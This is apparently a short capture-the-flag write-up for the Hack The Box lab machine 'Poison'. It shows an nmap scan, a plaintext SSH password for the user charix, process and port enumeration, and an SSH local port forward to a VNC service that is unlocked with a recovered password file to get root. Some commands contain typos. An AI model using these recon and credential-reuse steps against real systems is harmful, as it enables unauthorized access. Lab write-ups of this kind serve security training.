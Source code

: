 Poison without metasploit

![Poison](https://user-images.githubusercontent.com/55708909/91841738-7adcbb80-ec70-11ea-9770-71c82f4ee83a.png)

Starting with nmap scan:

Nmap -sC -sV -T4 -A -O -oA Poison -p- 10.10.10.84

![Poison_nmap](https://user-images.githubusercontent.com/55708909/91860662-91dbd780-ec89-11ea-8a3e-b049d53aa311.png)

This is the first thing that i saw as i proceeded further i was able to get the charix credentials

![Poison_port_80](https://user-images.githubusercontent.com/55708909/91856007-9604f680-ec83-11ea-9f38-4da1a423dab1.png)

![Poison_part_1](https://user-images.githubusercontent.com/55708909/91856026-9d2c0480-ec83-11ea-8ae0-1c4f28344100.png)

![Poison_part_2](https://user-images.githubusercontent.com/55708909/91856019-9b624100-ec83-11ea-9f67-830e8606dbf9.png)

ssh charix@10.10.10.84 pssword: Charix!2#4%6&8(0

After ssh into box you look at secret.zip file in try to open but anyways i transfer to my pc

After enumerate through system i file vnc service running at port 5901 this means we have to do local port forwarding and 
then use that secret file to enter into vnc service 

grep -aux |grep vnc
netstat -an |grep LIST
ssh -L 5001:127.0.0.1:5901 charix@10.10.10.84
after that at your system run these command vncviewer 127.0.0.5001 -passwd secret and you have root access.

![Poison_root_1](https://user-images.githubusercontent.com/55708909/91860340-2c87e680-ec89-11ea-9c81-a310a25b2b22.png)

![Poison_root_2](https://user-images.githubusercontent.com/55708909/91860334-2abe2300-ec89-11ea-822c-13d9eede4318.png)

![Poison_root_3](https://user-images.githubusercontent.com/55708909/91860328-298cf600-ec89-11ea-9174-98c875f8718d.png)
